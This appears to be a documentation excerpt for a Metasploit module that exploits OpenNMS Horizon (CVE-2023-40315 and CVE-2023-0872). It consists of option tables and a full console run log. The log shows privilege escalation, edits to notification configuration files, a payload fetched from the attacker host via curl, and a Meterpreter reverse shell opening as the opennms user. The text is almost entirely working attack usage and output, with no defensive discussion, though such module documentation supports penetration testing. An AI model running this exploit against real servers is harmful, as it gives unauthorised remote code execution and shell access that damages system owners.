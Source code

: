 ```
   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  192.168.91.196   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      fZn              no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST       192.168.91.196   no        Local IP to use for serving payload
   FETCH_SRVPORT       8081             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.91.196   yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux


msf6 exploit(linux/http/opennms_horizon_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.91.196:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] The target is OpenNMS version 31.0.7 and is likely vulnerable to CVE-2023-40315 and CVE-2023-0872.
[+] The target appears to be vulnerable. User rest has ROLE_REST privileges. Exploitation is likely possible via CVE-2023-0872.
[+] Successfully escalated privileges by adding ROLE_FILESYSTEM_EDITOR
[*] Successfully edited notificationCommands.xml
[*] Successfully edited destinationPaths.xml
[*] Successfully edited notifications.xml
[+] Successfully uploaded the payload to rebxympptby.bsh
[*] Triggering the notification to execute the payload
[*] Received expected response while triggering the payload. Please be patient, it may take a few seconds for the payload to execute.
[*] Sending stage (3045380 bytes) to 172.20.0.2
[*] Meterpreter session 1 opened (192.168.91.196:4444 -> 172.20.0.2:56974) at 2023-12-13 17:30:55 +0200
[*] Attempting cleanup...

meterpreter > getuid
Server username: opennms

```
